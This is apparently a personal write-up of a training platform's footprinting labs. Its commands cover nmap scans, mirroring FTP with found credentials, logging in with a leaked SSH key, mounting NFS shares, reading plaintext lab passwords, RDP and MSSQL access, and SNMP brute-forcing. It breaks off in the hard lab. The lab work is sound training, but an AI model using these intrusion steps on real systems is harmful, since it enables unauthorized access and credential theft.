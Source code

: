 ```yaml
---
description: Skills Assessment
---
```


# Footprinting Labs

## Footprinting Lab - Easy

### What is given

* company name: **`Inlanefreight Ltd`**
* given server: **`DNS`**
* found credentials: "**`ceil:qwer1234`**"
* admins have stored a "**`flag.txt`**" file on the server, we should obtain its content

### Questions

#### 1. Enumerate the server carefully and find the flag.txt file. Submit the contents of this file as the answer.

**`sudo nmap -sVC 10.129.72.126`**

* 21 ftp - ProFTPD Server (ftp.int.inlanefreight.htb)
* 22 ssh - OpenSSH 8.2p1 Ubuntu 4ubuntu0.2
* 53 domain - ISC BIND 9.16.1, dns-nsid: bind.version: 9.16.1-Ubuntu
* 2121 ftp - ProFTPD Server (Ceil's FTP)
* CONCLUSION
  * FTP: 21 is a real FTP server, 2121 is just a proxy to the real one&#x20;
  * SSH: We dont have keys for login, it might be in the FTP server...

dig soa \<IP>

* AUTHORITY SECTION: . 5 IN SOA **`a.root-servers.net`. `nstld.verisign-grs.com`**. 2023091101 1800 900 604800 86400

ssh ceil@10.129.72.126

* "`ceil@10.129.72.126: Permission denied (publickey).`"

ftp 10.129.72.126

* logged in, nothing to be found

**`wget -m --no-passive ftp://ceil:qwer1234@10.129.72.126:2121`**

* downloaded all the FTP files to local machine
* cd 10.129.72.126:2121 -> ls -la (**`.bash_history`**) -> cat **`.bash_history`**
  * `ls -al mkdir ssh cd ssh/ echo "test" > id_rsa id ssh-keygen -t rsa -b 4096 cd .. rm -rf ssh/ ls -al cd .ssh/ cat id_rsa ls a-l ls -al cat id_rsa.pub >> authorized_keys cd .. cd /home cd ceil/ ls -l ls -al mkdir flag cd flag/ touch flag.txt vim flag.txt cat flag.txt ls -al mv flag/flag.txt .`
* cd 10.129.72.126:2121 -> ls -la (**`.ssh`**) -> cd .ssh -> ls -la (**`id_rsa`**)
* **`chmod 600 id_rsa`**
* **`sftp -i id_rsa ceil@10.129.72.126`**
* **`cd ..`**
* **`ls -la`**
* **`cd flag`**
* **`ls`**
* **`get flag.txt`**
* LOCAL machine: **`cat flag.txt`**



## Footprinting Lab - Medium

### What is given

* everyone on the internal network has access to the server
* user named **`HTB`**
* we need to obtain credentials of this user as proof

### Questions

1. **Enumerate the server carefully and find the username "HTB" and its password. Then, submit this user's password as the answer.**

**`sudo nmap -sVC 10.129.169.252`**

* 111 rpcbind - version 2-4
* 135 msrpc
* 139 netbios-ssn
* 445 microsoft-ds?
* 2049 mountd 1-3
* 3389 ms-wbt-server - info: WINMEDIUM, Product\_Version: 10.0.17763
* \+ smb host scripts (smb2-security-mode: 311)
* Conclusion:
  * looks like NFS because of rpc

`rpcclient -U "" 10.129.45.189`

* Cannot connect to server. Error was NT\_STATUS\_LOGON\_FAILURE

**`showmount -e 10.129.169.252`**

* ![](<.gitbook/assets/image (12) (1) (1) (1).png>)

`sudo nmap 10.129.169.252 --script nfs* -p111,2049 -sV`

`mkdir target-NFS`

**`sudo mount -t nfs 10.129.169.252:/TechSupport ./target-NFS/ -o nolock`**

cd target-NFS

ls -la => many tickets, but only one with some data

**`cat ticket4238791283782.txt`**

* domain="10.129.2.59:9500"&#x20;
* path=/login
* from="alex.g@web.dev.inlanefreight.htb"
* user="**alex**"
* password="**lol123!mD**"
* port = 25 (SMTP)
* host=smtp.web.dev.inlanefreight.htb

**`remmina`**

* RDP = 10.129.169.252
* username = alex
* password = lol123!mD
* domain = 10.129.2.59:9500

We successfully connected using RDp to alex Windows machine, it contains MSQL Server Management Studio 18, but we dont have access to it...lets find the PW for su user to get access into DB with PW

![](<.gitbook/assets/image (13) (1) (1) (1).png>)![](<.gitbook/assets/image (14) (1) (1) (1).png>)

Searching the alex Windows machine -> c:/users/alex/devshare/important.txt => **`sa:87N1ns@slls83`**

* login doesnt work
* RUN MSSQLServer as ADMIN with found PW (87N1...)
  * we are in the DB
  * New Query -> **`select * from accounts.dbo.devsacc where name = ‘htb’;`**
  * ![](<.gitbook/assets/image (15).png>)



## Footprinting Lab - Hard

### What is given

* MX and management server for the internal network
* server has the function of a backup server for the internal accounts in domain
* user named **`HTB`**

### Questions

1. **Enumerate the server carefully and find the username "HTB" and its password. Then, submit HTB's password as the answer.**

**`sudo nmap -sVC 10.129.251.207`**

* 22 SSH
* 110 POP3 - Dovecot pop3d
* 143 IMAP - Dovecot imapd (Ubuntu)
* 993 IMAPS?
* 995 POP3S?
* CONCLUSION -> looks like we wanna use what we learned from IMAP/POP3 module...

**`openssl s_client -connect 10.129.251.207:pop3s`**

**`onesixtyone -c /usr/share/SecLists/Discovery/SNMP/snmp.txt 10.129.251.207`**

\=> ![](<.gitbook/assets/image (14) (1) (1).png>)

\=> we obtained the hostname \[XXX], lets dive deeper

**`braa XXX@10.129.251.207:.1.3.6.*`**

\=> ![](<.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)![](<.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

\=> we obtained the credentials of a user "tom" - lets try these

**`curl -k 'imaps://10.129.251.207' –user XXX:XXX -v`**

**`1 SELECT INBOX`**



